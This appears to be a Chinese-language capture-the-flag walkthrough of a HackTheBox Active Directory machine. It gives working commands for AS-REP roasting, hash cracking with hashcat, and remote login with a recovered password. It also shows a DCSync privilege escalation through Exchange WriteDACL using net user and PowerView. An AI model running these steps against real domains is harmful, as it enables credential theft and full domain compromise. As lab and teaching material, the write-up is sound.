







# 信息收集

## nmap



## 135端口-rpcclient

RPC存在匿名认证，枚举用户



GetNPUsers.py枚举不需要Kerberos域认证的用户




```
hashcat -m 18200 -a0 password.txt /usr/share/wordlists/rockyou.txt
```



```
svc-alfresco:s3rvice
```

开放了5985端口，使用`evil-winrm`配合该账号密码远程连接

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

## 提权

### 提权思路：

在域环境中，如果安装Exchange后，系统会添加一个名为Microsoft Exchange Security Groups、Exchange Trusted Subsystem和Exchange Windows Permission三个组。如果获得了这三个组内任意用户的控制权限，就能够继承用户组的WriteDACL权限，WriteDACL权限可以修改域对象的ACL，最终实现利用DCSync导出域内所有用户hash，实现权限提升的目的。

### 前置知识

域控制器(DC)是Active Directory(AD)域的支柱，用于高效的管理域内用户，所以在企业当中，为了防止DC出现意外导致域内瘫痪，所以都是要布置多台域控作为AD域的备份，或者是部署多台域控制器，方便在站点位置本地提供身份验证和其他策略。当企业内网当做部署了多台域控制器后，一台域控进行了数据的更改之后，需要与其他域控进行数据的同步，而这个同步是通过Microsoft的远程目录复制服务协议 (MS-DRSR),该协议是基于MSRPC / DCE/RPC )进行的。并且其 DRS 的 Microsoft API 是DRSUAPI(这个在后面抓包可以看到)。。在不同域控制器（DC）之间，每 15 分钟都会有一次域数据的同步。当一个域控制器（DC 1）想从其他域控制器（DC 2）获取数据时，DC 1 会向 DC 2 发起一个 GetNCChanges 请求，该请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync 就是利用的这个原理，通过 Directory Replication Service（DRS） 服务的 GetNCChanges 接口向域控发起数据同步请求。

### 滥用writeDACL 权限实现权限提升



`SVC-ALFRESCO`用户是`Service Account`的成员，`Service Account`是`Privileged It Account`的成员，`Privileged It Account`是`Account Operators`的成员，

`Account Operators`对`Exchange windows Permissions`有`GenericAll`权限

`Account Operators `该组的成员可以创建和管理该域中的用户和组并为其设置权限，也可以在本地登录域控制器。但是，不能更改属于Administrators或Domain Admins组的账号，也不能更改这些组。

`exchange windows permission`组的成员对`htb.local`拥有`writeDACL`权限

思路：创建新用户加入`exchange windows permission`组，然后修改`htb.local`的`writeDACL`权限为`DCSync（前置知识中有介绍）`

```powershell
net user abc abc123! /add /domain

 net group "Exchange Windows Permissions" abc /add
 
 $SecPassword = ConvertTo-SecureString 'abc123!' -AsPlain -Force //将明文密码转换为 SecureString 类型
 
 $Cred = New-Object System.Management.Automation.PSCredential('htb\abc', $SecPassword) //创建一个包含用户名和加密密码的凭据对象
 
upload PowerView.ps1
 
Import-Module .\PowerView.ps1
 
Add-DomainObjectAcl -PrincipalIdentity abc -Credential $Cred  -Rights DCSync //将DCsync权限授予abc用户
```



得到管理员的密码的hash值也可以远程连接windows


